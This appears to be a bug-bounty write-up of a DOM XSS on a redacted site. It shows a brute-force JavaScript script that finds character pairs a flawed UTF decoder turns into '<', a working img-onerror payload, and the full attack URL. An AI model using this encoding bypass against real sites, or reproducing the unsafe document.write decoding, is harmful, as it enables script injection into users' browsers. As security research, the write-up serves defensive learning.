

# DOM XSS on [REDACTED2]

After spending hours doing recon on [REDACTED2]'s website, I came across this interesting URL:
```
https://[REDACTED2]/.../popupAlert.jsp?locale=i&style=g&txt=dummy_text
```

As you can guess by the URL, this seems to be a page which generates popups using the `txt` parameter.
The data in the `txt` parameter was written to the screen, but trying to use the open tag character (`<`) would 
safely write it to the page. So what was going on here?

Upon cracking open the Chrome DevTools, I found a snippet that looks like the following:
```javascript
// I don't have the original code, this is a vague re-creation
utftext = "\x12\x34"

i = 0
c = utftext.charCodeAt(i);
c2 = utftext.charCodeAt(i+1);

document.write(String.fromCharCode(((c&31)<<6) | (c2&63)));
```
Essentially, the `txt` parameter would encode non-English characters to the hex values 
you can see in the `utftext` variable. 

This means that we can't directly inject a `"` or `>` to escape the script and run our own JavaScript code. 
However, the `document.write` still caught my interest. What if we could figure out a way to encode a `<` character, 
so that we could get the `document.write` to inject our own HTML and JavaScript code?

I ended up writing the following code to try and bruteforce the combination of 2 hex values needed to get the 
`String.fromCharCode` function to return a `<`:
```javascript
// Which char do we want to encode
ccode = "<"

function decimalToHex(d, padding) {
    // https://stackoverflow.com/a/57807/11985743
    var hex = Number(d).toString(16);
    padding = typeof (padding) === "undefined" || padding === null ? padding = 2 : padding;
    while (hex.length < padding) {
        hex = "0" + hex;
    }
    return hex;
}

done = false
ccode = ccode.charCodeAt(0);
for (i = 100; i < 300; i ++) {
    for (j = 1; j < 2 ** 16 - 1; j ++) {
        if ((((i&31)<<6) | (j&63)) == ccode && j != ccode && i != ccode) {
            console.log("\\u" + decimalToHex(i, 4) + "\\u" + decimalToHex(j, 4));
            
            done = true
            break
        }
    }

    if (done) break
}
```
Which yielded the following output:
```text
\u0080\u007c
```
If we test this out by passing it back to the original function:
```javascript
utftext = "\u0080\u007c"
i = 0
c = utftext.charCodeAt(i);
c2 = utftext.charCodeAt(i+1);
String.fromCharCode(((c&31)<<6) | (c2&63));

// Outputs: '<'
```
Great! So all we need now is to encode the rest of the special characters in the payload, and we get a 
little something like this:
```text
\u00c0|img src=x onerror=(alert)(1)\u00c0~
```
Putting it all together, we get this link:
```
https://[REDACTED2]/.../popupAlert.jsp?locale=i&style=g&txt=\u00c0|img src=x onerror=(alert)(1)\u00c0~
```

And... our code executes!

